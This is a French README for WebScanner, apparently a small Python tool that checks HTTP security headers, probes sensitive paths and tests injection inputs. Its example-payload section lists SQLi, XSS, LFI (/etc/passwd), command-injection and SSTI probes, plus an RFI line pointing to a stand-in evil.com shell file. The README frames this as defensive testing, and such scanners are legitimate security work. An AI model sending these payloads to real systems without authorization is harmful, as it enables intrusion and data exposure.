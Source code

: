 # 🛡️ WebScanner

WebScanner est un scanner de sécurité web simple et modulaire écrit en Python.  
Il permet de détecter les failles courantes comme :
- En-têtes HTTP manquants
- Chemins sensibles accessibles
- Vulnérabilités d’injection (XSS, SQLi, LFI, RFI, etc.)

---

## 🚀 Fonctionnalités

✅ Analyse des en-têtes de sécurité HTTP  
✅ Détection de chemins courants (`/admin`, `.git`, `/backup.zip`...)  
✅ Test de payloads malveillants (XSS, LFI, RFI, command injection...)  
✅ Rapport HTML clair avec niveaux de gravité et liens vers des solutions  
✅ Détection améliorée avec preuves d’exploitation (ex. : inclusion réelle de fichiers)  
✅ Modularité : chaque fonctionnalité est dans un module séparé (facile à maintenir)

---

## 📁 Arborescence
```text
webscanner/
│
├── scanner.py # Script principal
├── payloads.txt # Liste de payloads d'injection
├── paths.txt # Liste de chemins communs à tester
├── rapport.html # Rapport généré automatiquement
├── scanner.log # Log des erreurs réseau
│
├── modules/
│ ├── headers.py # Analyse des en-têtes
│ ├── pages.py # Scan des chemins
│ ├── injection.py # Test des injections
│
├── utils/
│ ├── report.py # Génération du rapport HTML
│ ├── classifier.py # Classification des payloads
│ ├── detection_signatures.py # Signatures pour détection réelle
│
└── pycache/ # Fichiers Python compilés (à ignorer)
```
---

## ⚙️ Installation

### 1. Cloner le projet :
git clone https://github.com/ton-utilisateur/webscanner.git
cd webscanner

🧪 Utilisation
Scanner une URL : python3 scanner.py
ou directement : python3 scanner.py https://example.com

Résultat :
Un fichier rapport.html est généré dans le dossier courant.
Il contient :

La liste des failles détectées

Leur type (ex. : XSS, LFI...)

Leur niveau de dangerosité (Critique, Moyen, Info)

Des liens vers les solutions recommandées

---

## 📚 Exemples de payloads
Le fichier payloads.txt inclut plusieurs types de tests :

SQLi : ' OR 1=1 --

XSS : <script>alert(1)</script>

LFI : ../../../../etc/passwd

RFI : http://evil.com/shell.txt

Command Injection : $(id)

SSTI : {{7*7}}

## 🛠 Personnalisation
Ajouter des chemins à tester → paths.txt

Ajouter ou modifier des payloads → payloads.txt

Modifier le style ou le contenu du rapport → utils/report.py

---

## 🔒 Avertissement
⚠️ Ce projet est destiné à des fins éducatives uniquement.
N’utilisez cet outil que sur vos propres serveurs ou avec autorisation explicite.
Toute utilisation abusive est interdite.

---

## 📄 Licence
MIT License — Libre pour usage, modification et distribution.
